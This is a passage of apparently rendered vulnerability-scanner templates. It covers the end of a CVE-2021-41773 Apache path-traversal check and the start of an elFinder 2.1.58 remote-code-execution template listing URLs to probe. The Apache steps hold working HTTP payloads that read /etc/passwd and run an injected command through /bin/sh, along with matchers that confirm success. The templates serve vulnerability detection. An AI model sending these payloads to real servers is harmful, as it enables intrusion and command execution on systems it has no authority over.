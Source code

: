 ### Step - 1

```
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
POST /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

echo Content-Type: text/plain; echo; {{cmd}}

```

### Matchers

**Type - regex**

- name - LFI
- regex
  1. root:.\*:0:0:

**Type - word**

- name - RCE
- words
  1. CVE-2021-41773-POC

---

# elFinder 2.1.58 - Remote Code Execution

## Description

- elFinder 2.1.58 is impacted by multiple remote code execution vulnerabilities that could allow an attacker to execute arbitrary code and commands on the server hosting the elFinder PHP connector, even with minimal configuration.
- severity - critical
- tags - cve,cve2021,elfinder,misconfig,rce,oss

## Requests

- Method - GET

### URL

- {{BaseURL}}/admin/elfinder/elfinder-cke.html
- {{BaseURL}}/assets/backend/elfinder/elfinder-cke.html
- {{BaseURL}}/assets/elFinder-2.1.9/elfinder.html
- {{BaseURL}}/assets/elFinder/elfinder.html
- {{BaseURL}}/backend/elfinder/elfinder-cke.html
- {{BaseURL}}/elfinder/elfinder-cke.html
- {{BaseURL}}/uploads/assets/backend/elfinder/elfinder-cke.html
- {{BaseURL}}/uploads/assets/backend/elfinder/elfinder.html
- {{BaseURL}}/uploads/elfinder/elfinder-cke.html

